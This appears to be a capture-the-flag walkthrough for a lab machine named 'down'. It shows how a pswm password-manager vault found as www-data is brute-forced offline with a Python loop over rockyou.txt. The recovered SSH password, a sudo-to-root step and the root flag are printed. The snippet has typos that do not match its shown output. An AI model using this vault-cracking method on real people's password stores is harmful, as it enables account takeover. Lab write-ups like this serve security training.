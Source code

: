 ```
www-data@down:/home$ find . -type f             
find . -type f
./aleks/.lesshst
./aleks/.bashrc
./aleks/.sudo_as_admin_successful
./aleks/.local/share/pswm/pswm <-- tries here
find: ‘./aleks/.cache’: Permission denied
find: ‘./aleks/.ssh’: Permission denied
./aleks/.profile
./aleks/.bash_logout
www-data@down:/home$ 
```
- In `pwsm` he found base64 encoded strings delimited by *:
```
cat pswm
e9laWoKiJ0OdwK05b3hG7xMD+uIBBwl/v01lBRD+pntORa6Z/Xu/TdN3aG/ksAA0Sz55/kLggw==*xHnWpIqBWc25rrHFGPzyTg==*4Nt/05WUbySGyvDgSlpoUw==*u65Jfe0ml9BFaKEviDCHBQ==www-data@down:/home/aleks/.local/share/pswm$ 
```
- Googles `pswm` and finds a github: `https://github.com/Julynx/pswm`
- Finds this function: `https://github.com/Julynx/pswm/blob/main/pswm#L322`
- Copies the function into `vi crack.py` locally
- Copies the output of `cat pswm` into `vi pswm`
- See the function uses cryptocode library so makes a python env: `python3 -m venv .venv` --> `source .venv/bin/activate` --> `pip3 install cryptocode`
- Edits crack.py to `import cryptocode`. `import os` + `import sys`
- Code looks to return FALSE, or return the decrpyted content if we can
- Appends a loop to the function, which is going to be the worldlist:
```
with open(sys.argv[1]) as wordlist:
    for pw in wordlist:
        decrypted = encrypted_file_to_lines('pswm', pw.strip())
        if decrypted:
            print(pw)
            print(decrpyted)
            sys.exit
```
- Calls the defined function in the loop with the file name and `pw` which is the passwords coming from rockyou.txt
- Runs `python3 crack.py /usr/share/wordlists/rockyou.txt`
- Unzip rockyou.txt.gz: `gunzip rockyou.txt.gz`
- Wait sometime, added .strip() to pw to ensure the passwords don't include the end of line.
- Needed to kill process `ps -ef | grep crack` --> `kill <1234567>` (process id)
- Cracked
```
┌──(.venv)(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 crack.py /usr/share/wordlists/rockyou.txt                        
flower

['pswm\taleks\tflower', 'aleks@down\taleks\t1uY3w22uc-Wr{xNHR~+E']
```
```
┌──(.venv)(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# printf "aleks@down\taleks\t1uY3w22uc-Wr{xNHR~+E"
aleks@down      aleks   1uY3w22uc-Wr{xNHR~+E
```
- Password is: `1uY3w22uc-Wr{xNHR~+E` for `ssh aleks@10.129.234.87`
- `sudo -l` then `sudo su` then `cd ~` for root directory
```
aleks@down:~$ sudo su
root@down:/home/aleks# cd ~
root@down:~# ls
root.txt  snap
root@down:~# cat root.txt
87bb9869a311b8abb5fb4d3c7248fdcb
```